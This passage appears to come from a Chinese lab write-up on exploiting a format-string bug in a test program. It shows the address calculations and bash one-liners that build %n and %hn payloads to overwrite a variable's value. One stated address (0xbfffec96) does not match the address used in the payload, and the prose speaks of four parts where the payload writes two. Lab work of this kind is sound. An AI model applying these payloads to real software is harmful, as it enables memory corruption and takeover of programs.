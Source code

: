 可以看到var的值也被打印出来

可以看到目标地址是`bfffed54`

注意到我们用来实现修改数据的%n是将当前所有输出字符的个数写进va_list 所指向的地址，所以需要控制%n前需要输出0x66887799个字符

0x66887799 = 1720219545

而printf前已经提前输入了41(4+8+8+8+8+5个'.')个字符 所以需要减去41

减去41为1720219504 

最初的指令为

```bash
echo $(printf "\x54\xec\xff\xbf").%.8x.%.8x.%.8x.%.8x.%.1720219504x.%n >
input
```

但是考虑到目标值太大无法被正常输出，因此使用“%hn”格式化字符串， 将数据分成 4 个部分分别 写入，为两部分0x6688和0x7799进行内存写入。

目标地址是0xbfffed54，注意小端存储，这里是低端的两字节地址，需要修改为0x7799，高端的两字节地址是0xbfffec96，需要被修改成0x6688

0x6688 = 26248

0x7799 = 30617

注意我们构造字符串，前面已经自带44(4+4+4+8+8+8+8)个字符

26248-44 = 26204

30617-26248 = 4369

被构造的字符串如下

```bash
echo $(printf "\x56\xed\xff\xbf@@@@\x54\xed\xff\xbf")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input

./prog1 < input | grep -a address
```

可以看到成功修改

![image-20220525210350411](README.assets/image-20220525210350411.png)

## （2）改变程序的内存数据：将变量 var 的值，从 0x11223344 变成 0xdeadbeef
